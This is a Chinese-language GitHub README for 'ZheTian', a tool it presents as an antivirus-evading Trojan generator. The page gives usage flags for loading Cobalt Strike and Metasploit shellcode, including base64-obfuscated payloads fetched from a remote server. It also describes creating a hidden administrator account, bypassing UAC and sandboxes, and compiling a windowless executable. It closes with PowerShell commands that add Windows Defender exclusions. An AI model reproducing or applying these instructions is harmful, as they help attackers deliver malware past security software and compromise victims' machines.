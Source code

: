 ![logo](images/logo.png)
# ::ZheTian Powerful Anti Anti-Virus Trojan horse generator / 强大的免杀木马生成器

----

### V3使用帮助：
>新增反沙箱、隐藏窗口、Bypass UAC
>
在线版本，可视化创建工具。域名：`zTian.red`欢迎志同道合的朋友来一起维护项目。

![v3](images/v3.png)
###  

----

### V2使用帮助：
### 全新V2上线，Bypass All(releases已歇菜，改改代码重新生成还能用).

#### V2版本支持Cobalt Strike、MSF原生Shellcode，无需任何处理即可直接使用，指令：

> -o string：选中payload，向同级目录生成一个可执行程序（无需go语言环境）
>
> -m int：选择要生成的系统架构，参数选择32和64，默认选中了64
> 
系统依旧采用了“慢加载”方式，运行约十五秒后才开始执行上线操作

![v2](images/v2.png)

####  本次更新采用~~闭源方式~~ 已开源，V1版本继续开源。相比较移除了原本的ShellCode loader功能，只保留了生成模块。此版本进行功能优化之后可能成为最终解决方案，但是免杀之路不会停止，新ZheTian将与[Hearts K](http://heartsk.com/)合并，成为其一个子模块，欢迎继续体验新项目！感谢各位师傅一路关注。 —— 遮天项目

----

### V1使用帮助：
![v1](images/v1.png)
### 参数：
> -u  string：从远程服务器加载base64混淆后的字符串。
>
> -r string：从本地文件内读。
>
> -s string：读取无修改的原始文件，只能从本地加载。
>
> -o boolean：向userHome\tmp目录输出一次性可执行文件，体积比主程序小了五六倍，砍去了其他功能，只保留了ShellCode Loader
>
> -n string：向管理员组创建用户，-n的参数即为账户，-p的参数为密码。需以管理员身份运行
>
> -c string：直接从命令行获取base64字符串。如：ZheTian -c ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M==...
>

#### 运行示例：

#### Base64字符串方式加载：

原始python代码：
> buf = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75..."

只需提取数组中的16进制代码：
> \xfc\x48\x83\xe4\xf0\xe8\xc8\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75...
>
然后去除\x，得到：
> fc4883e4f0e8c88b52208b423c4801d0668178180b0275......
>
然后使用base64转码，得到：
> ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M0ODAxZDA2NjgxNzgxODBiMDI3NQ==
>
c、ruby等同理，Java之流的则是去除  ", 0x"。注意，是逗号空格0x
> byte buf[] = new byte[] { 0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc8, 0x00, 0x00, 0x00, 0x41};
>

获取到base64字符串之后可以选择放到远程服务器加载，使用-u 命令即可。也可以放到本地文件内，或者直接使用-c命令以命令行方式运行。如：ZheTian.exe -c
ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M0ODAxZDA2NjgxNzgxODBiMDI3NQ==

##### 原文件读取类型：

使用 `ZheTian -h `命令可查看支持的语言。推荐使用Java、py、C语言。原文件无需进行任何修改即可直接加载，但是不支持放在远程服务器，只能通过本地 -s
命令读取，如： `ZheTian -s C:/Windows/Temp/payload.java`

##### 图示操作过程

先生成64位shellcode

![payload](images/payload.jpg)

然后根据需要的命令进行修改
![code](images/code.png)

下面执行示例：
![run](images/run.png)

### 编译：

> go build -ldflags "-w -s" -o ZheTian.exe

可以使用
> go build -ldflags "-w -s -H windowsgui" -o ZheTian.exe

实现无窗口运行，但是360偶尔会识别为恶意程序

### 带图标编译：

> 先执行：go get github.com/akavel/rsrc
>
> rsrc -manifest ZheTian.manifest -ico favicon.ico -o ZheTian.syso
>
>再执行go build -ldflags "-w -s" -o ZheTian.exe
>
> 更多介绍：https://blog.csdn.net/qq_38376348/article/details/108318880
>

## 扩展：Windows defender

由于ZheTian的defender免杀效果不稳定，在此推荐一种方式，执行下面命令会分别向defender添加白名单：目录、进程、类型文件

#### 需以管理员权限运行

> powershell -Command Add-MpPreference -ExclusionPath "C:\tmp"
>
> powershell -Command Add-MpPreference -ExclusionProcess "java.exe"
>
> powershell -Command Add-MpPreference -ExclusionExtension ".java"
>

## 有问题加群反馈！！Issues 一概不处理！如果失效加我微信
<img src="https://heartsk.com/static/wx.jpg" width="350">
<img src="images/group.png" width="350">
